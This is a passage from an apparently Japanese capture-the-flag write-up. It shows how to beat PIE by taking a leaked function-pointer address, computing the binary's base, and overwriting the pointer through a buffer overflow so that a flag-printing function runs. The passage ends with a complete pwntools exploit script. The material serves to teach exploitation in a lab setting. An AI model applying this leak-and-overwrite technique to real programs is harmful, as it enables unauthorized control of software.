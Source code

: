 `my_monster.cry`の関数ポインタを`show_flag()`が配置されているアドレスに書き替えることで、`my_monster.cry()`が呼び出された時に`show_flag()`を呼び出すことができます。

`show_flag()`が配置されているアドレスがわかればいいのですが、PIEというセキュリティ機構の考慮が必要です。

PIE有効下ではまず最初にランダムなアドレス(ベースアドレス)を決定し、そのアドレスから実行ファイルがメモリに配置されるようになります。

そのため関数が配置されるアドレスも毎回変化します。

```python
# 毎回変化するベースアドレス
base_address = 0x562ae54be000
# ある関数のオフセット
function_offset = 0x1568
# 関数が実際にメモリに配置されるアドレス
function_address = base_address + function_offset = 0x562ae54bf568
```

そのためベースアドレスがわからなければ関数が実際に配置されるアドレスもわかりません。どうやってベースアドレスを求めたらいいのでしょうか。

ここでプログラムで出力されるメモリに注目します。

```
+--------+--------------------+----------------------+
|name    | 0x0000000000000000 |                      |
|        | 0x0000000000000000 |                      |
|HP      | 0x0000000000000064 |                  100 |
|ATK     | 0x000000000000000a |                   10 |
|cry()   | 0x0000559b85ecd34e |                      |
+--------+--------------------+----------------------+
```

このように、出力には`my_monster.cry`のアドレス`0x0000559b85ecd34e`が含まれています。これは先ほどの例で言うと`function_address`にあたります。

`function_offset`がわかれば、式から`function_address - function_offset = base_address`と求めることができます。

関数のオフセットは`objdump`などのツールを用いて調べることができます。この時点で`my_monster.cry`に入っているのは`my_monster_cry()`なのでその関数のオフセットを調べます。

```
$ objdump -d vuln
...
000000000000134e <my_monster_cry>:
...
```

```
>>> hex(0x0000559b85ecd34e - 0x00000000000134e)
'0x559b85ecc000'
```

この`0x559b85ecc000`が今回のベースアドレスです。これに`show_flag()`のオフセットを足せば`show_flag()`のアドレスになります。

`my_monster.cry`を`show_flag()`に書き替えればよいという話でしたが、書き替える内容が動的に変化するのでncで解くのは厳しいです。

Pythonのpwntoolsを利用することでそのような操作を簡単に書くことができます。

```python
from pwn import *

file = "./vuln"

program = ELF(file)

io = process(file)

# my_monster.cryのアドレスを取得する
io.recvuntil("|cry()   | 0x")
cry_addr = int(io.recvuntil(" ")[:-1], 16)

# ベースアドレスを求める (pwntoolsのELFクラスでは一度ベースアドレスを入れると後は自動で補完してくれる)
program.address = cry_addr - program.sym["my_monster_cry"]

# my_monster.cryを書き換える
payload = b"A" * 0x8  # name
payload += b"A" * 0x8
payload += b"A" * 0x8 # HP
payload += b"A" * 0x8 # ATK
# p64で整数のアドレスを64bitのバイト列に変換する
payload += p64(program.sym["show_flag"]) # cry()
io.sendlineafter("Input name: ", payload)

io.interactive()
```

